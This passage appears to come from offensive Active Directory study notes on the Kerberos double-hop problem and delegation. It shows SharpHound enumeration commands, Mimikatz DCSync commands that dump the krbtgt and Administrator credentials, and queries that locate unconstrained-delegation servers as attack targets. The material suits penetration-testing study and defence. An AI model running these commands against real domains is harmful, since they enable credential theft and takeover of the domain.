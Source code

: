 #### **BloodHound Data Collection**
```powershell
# SharpHound requires extensive AD queries:
.\SharpHound.exe -c All                # Complete domain enumeration
.\SharpHound.exe -c Session,LoggedOn   # Session and logon data
```

#### **Credential Dumping Operations**
```powershell
# Mimikatz DCSync (requires DC communication):
.\mimikatz "lsadump::dcsync /user:krbtgt" exit
.\mimikatz "lsadump::dcsync /user:Administrator" exit
```

---

## 🔍 **Technical Deep Dive**

### **Unconstrained Delegation Exception**

#### **When Double Hop Problem Doesn't Occur**
If **unconstrained delegation** is enabled on a server:
- **TGT ticket forwarded**: User's TGT sent along with TGS request
- **Credential caching**: Target server caches user's TGT
- **Impersonation capability**: Server can request TGS tickets on user's behalf
- **Attack opportunity**: Unconstrained delegation servers are high-value targets

#### **Identifying Unconstrained Delegation**
```powershell
# PowerView query for unconstrained delegation
Get-DomainComputer -Unconstrained | select name

# LDAP query for unconstrained delegation
Get-ADComputer -Filter {TrustedForDelegation -eq $true} -Properties TrustedForDelegation
```

### **Constrained Delegation Scenarios**

#### **Service-Specific Delegation**
- **Limited scope**: Delegation only to specific services
- **Protocol transition**: May allow protocol changes (Kerberos to NTLM)
- **S4U2Self/S4U2Proxy**: Service for User extensions enable constrained delegation

#### **Resource-Based Constrained Delegation (RBCD)**
- **Target-controlled**: Delegation configured on target resource
- **Modern approach**: Newer delegation method in Windows 2012+
- **Attack vector**: Can be abused if target object permissions allow modification

---

## 🔐 **Alternative Solutions and Advanced Techniques**
